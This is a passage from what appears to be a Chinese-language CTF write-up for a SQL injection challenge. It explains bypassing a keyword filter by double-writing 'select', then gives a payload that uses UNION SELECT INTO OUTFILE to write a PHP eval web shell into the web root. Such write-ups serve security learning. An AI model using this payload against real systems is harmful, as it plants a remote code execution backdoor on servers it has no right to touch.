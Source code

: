 成功获取flag<br />![image.png](./images/20231018_0002182191.png)
# 随便注
fuzz测试以后会发现对一些字符进行了过滤，可以通过双写绕过
> **双写绕过是指：某些过滤是将指定字符串替换为空，但因为只会替换一次，所以可以通过双谢来绕过**
> **例如：'select'双写后为'selselectect', 服务端将select置换为空后，selselectect又变为了select达到绕过过滤的目的**

并且通过联合查询发现在数据库中没有flag<br />打算sql注入写入shell<br />payload如下
```php
?id=2'union+seleselectct+1,'<?php+eval($_POST[1])?>'+into+outfile+'/var/www/html/1.php'--+
```